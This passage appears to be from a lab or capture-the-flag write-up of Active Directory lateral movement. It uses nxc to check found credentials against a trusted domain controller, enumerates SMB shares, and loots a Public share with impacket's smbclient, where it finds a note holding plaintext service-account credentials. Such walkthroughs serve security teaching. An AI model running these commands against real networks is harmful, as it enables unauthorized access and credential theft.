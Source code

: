 We can verify this by attempting to authenticate to the `backward.rv` domain controller `dc02.backward.rv` using the credentials for `chloe.lim@antennae.rv`

```
~$ nxc ldap dc02.backward.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' -d 'antennae.rv'
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:antennae.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] antennae.rv\chloe.lim:BZCJsopuOPgH 
```

With this trust relationship in place, we can enumerate the `backward.rv` domain for open and accessible shares. We'll find that on the `srv01.backward.rv` machine, we have access to the `antennae.rv` and `Public` shares.

```
~$ nxc smb srv01.backward.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' -d 'antennae.rv' --shares
SMB         10.5.10.13      445    SRV01            [*] Windows Server 2022 Build 20348 x64 (name:SRV01) (domain:backward.rv) (signing:True) (SMBv1:False)
SMB         10.5.10.13      445    SRV01            [+] antennae.rv\chloe.lim:BZCJsopuOPgH 
SMB         10.5.10.13      445    SRV01            [*] Enumerated shares
SMB         10.5.10.13      445    SRV01            Share           Permissions     Remark
SMB         10.5.10.13      445    SRV01            -----           -----------     ------
SMB         10.5.10.13      445    SRV01            ADMIN$                          Remote Admin
SMB         10.5.10.13      445    SRV01            antennae.rv     READ            Shared folder for users in antennae.rv
SMB         10.5.10.13      445    SRV01            backward.rv                     Shared folder for users in backward.rv
SMB         10.5.10.13      445    SRV01            C$                              Default share
SMB         10.5.10.13      445    SRV01            IPC$            READ            Remote IPC
SMB         10.5.10.13      445    SRV01            Public          READ,WRITE      Shared folder for users in both antennae.rv and backward.rv
```

We can loot the `Public` share, and find a file called `note.txt` that contains the credentials for the `svc_vdi` account:

```
~$ smbclient.py 'chloe.lim':'BZCJsopuOPgH'@srv01.backward.rv                           
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Public
# ls
drw-rw-rw-          0  Sun Sep  7 09:03:04 2025 .
drw-rw-rw-          0  Sat Aug 30 04:36:43 2025 ..
-rw-rw-rw-          0  Sat Aug 30 04:36:19 2025 .empty
-rw-rw-rw-        181  Sat Aug 30 04:36:19 2025 note.txt
-rw-rw-rw-         21  Sat Aug 30 04:36:19 2025 README.md
# cat note.txt
@Jolene, here are the creds for svc_vdi as you asked for earlier.

Not sure why you need them anymore cuz our VDI project got canned last week, but whatever.

svc_vdi
tr4v15
```
